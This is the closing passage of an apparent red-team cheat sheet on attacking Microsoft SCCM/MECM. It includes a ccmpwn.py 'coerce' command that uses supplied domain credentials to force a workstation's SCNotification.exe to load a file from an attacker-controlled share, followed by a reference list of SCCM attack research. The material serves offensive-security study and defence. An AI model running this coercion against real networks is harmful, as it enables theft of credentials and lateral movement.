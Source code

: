* Malicious config to force `SCNotification.exe` to load a file from an attacker-controlled file share

    ```ps1
    python3 ccmpwn.py domain/user:password@workstation.domain.local coerce -computer 10.10.10.10
    ```

## References

* [Network Access Accounts are evil… - Roger Zander - September 13, 2015](https://rzander.azurewebsites.net/network-access-accounts-are-evil/)
* [The Phantom Credentials of SCCM: Why the NAA Won’t Die - Duane Michael - June 28, 2022](https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9)
* [Introducing MalSCCM - Phil Keeble -May 4, 2022](https://labs.nettitude.com/blog/introducing-malsccm/)
* [Exploiting RBCD Using a Normal User Account - tiraniddo.dev - May 13, 2022](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
* [Exploring SCCM by Unobfuscating Network Access Accounts - @_xpn_ - July 9, 2022](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
* [Relaying NTLM Authentication from SCCM Clients - Chris Thompson - June 30, 2022](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)
* [Misconfiguration Manager: Overlooked and Overprivileged - Duane Michael - March 5, 2024](https://posts.specterops.io/misconfiguration-manager-overlooked-and-overprivileged-70983b8f350d)
* [SeeSeeYouExec: Windows Session Hijacking via CcmExec - Andrew Oliveau - March 28, 2024](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec?hl=en)
* [SCCM / MECM LAB - Part 0x0 - mayfly - March 23, 2024](https://mayfly277.github.io/posts/SCCM-LAB-part0x0/)
* [SCCM / MECM LAB - Part 0x1 - Recon and PXE - mayfly - March 28, 2024](https://mayfly277.github.io/posts/SCCM-LAB-part0x1/)
* [SCCM / MECM LAB - Part 0x2 - Low user - mayfly - March 28, 2024](https://mayfly277.github.io/posts/SCCM-LAB-part0x2/)
* [SCCM / MECM LAB - Part 0x3 - Admin User - mayfly - April 3, 2024](https://mayfly277.github.io/posts/SCCM-LAB-part0x3/)
* [Further Adventures With CMPivot — Client Coercion - Diego Lomellini - February 3, 2025](https://posts.specterops.io/further-adventures-with-cmpivot-client-coercion-38b878b740ac)
* [Decrypting the Forest From the Trees - Garrett Foster - March 6, 2025](https://specterops.io/blog/2025/03/06/decrypting-the-forest-from-the-trees/)
